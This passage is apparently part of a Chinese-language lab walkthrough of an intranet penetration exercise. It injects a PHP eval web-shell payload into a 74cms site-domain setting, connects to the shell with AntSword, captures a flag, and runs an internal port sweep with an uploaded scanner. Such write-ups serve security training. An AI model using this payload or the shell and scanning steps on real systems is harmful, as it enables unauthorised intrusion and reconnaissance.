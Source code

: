 点击`系统`，`网站域名`输入`http://127.0.0.1/.',eval($_POST[cmd]),'/.com`：

![image-20220612112000998442-1655800306409392.png](img/简易内网渗透演练 Local.assets/d469861f3599161866abff3d2cbe89a2.png)

点击`保存修改`：

![image-20220612112022243891-1655800307920469.png](img/简易内网渗透演练 Local.assets/75f5d12dd8b375227ffc5c245304ec87.png)

启动蚁剑工具：

![image-20220612112116956314-1655800309407288.png](img/简易内网渗透演练 Local.assets/5b9b462443ac7a4f260f7a2c642119be.png)

添加shell：

![image-20220612112137830101-1655800310826496.png](img/简易内网渗透演练 Local.assets/feeba675ebfab4ea6eeffe467be6e38d.png)

shell信息如下：

```
URL地址：http://192.168.1.150/74cms/upload/index.php?m=admin

连接密码：cmd
```

![image-20220612112244453341-1655800312324589.png](img/简易内网渗透演练 Local.assets/68c53c2e937b1c2b4115bf6a191fd975.png)

点击`添加`后右键URL点击`虚拟终端`，进入终端后查看权限：

![image-20220612112357749897-1655800313752772.png](img/简易内网渗透演练 Local.assets/e8f3a1bc657abdc4746b8b6b7facab23.png)

双击URL进入文件管理，发现flag：

![image-20220621154722685527-1655800315194918.png](img/简易内网渗透演练 Local.assets/e8b72419dba9a7853d223df65f495fa7.png)

```
flag{B6AB-7C20-AC52-F913-E56E-327A-FD82-1F8A}
```

##### 任务5：内网主机探测（T1595 - 主动扫描）

```
本场景的第5个任务是利用扫描器探测内网存活主机。

远程命令执行漏洞，用户通过浏览器提交执行命令，由于服务器端没有针对执行函数做过滤，导致在没有指定绝对路径的情况下就执行命令，可能会允许攻击者通过改变$PATH或程序执行环境的其他方面来执行一个恶意构造的代码。

该任务可以通过以下操作完成。
```

将s扫描器上传至蚁剑中：

![image-20220612173333390539-1655800316670975.png](img/简易内网渗透演练 Local.assets/b15f77839b2b6413256977a6be3273cd.png)

蚁剑工具中`s.exe`文件所在目录下右键点击`>_ 在此处打开终端`，执行命令：

```
s.exe tcp 192.168.2.0/24 22,80,135,8080,3389 > 1.txt
```
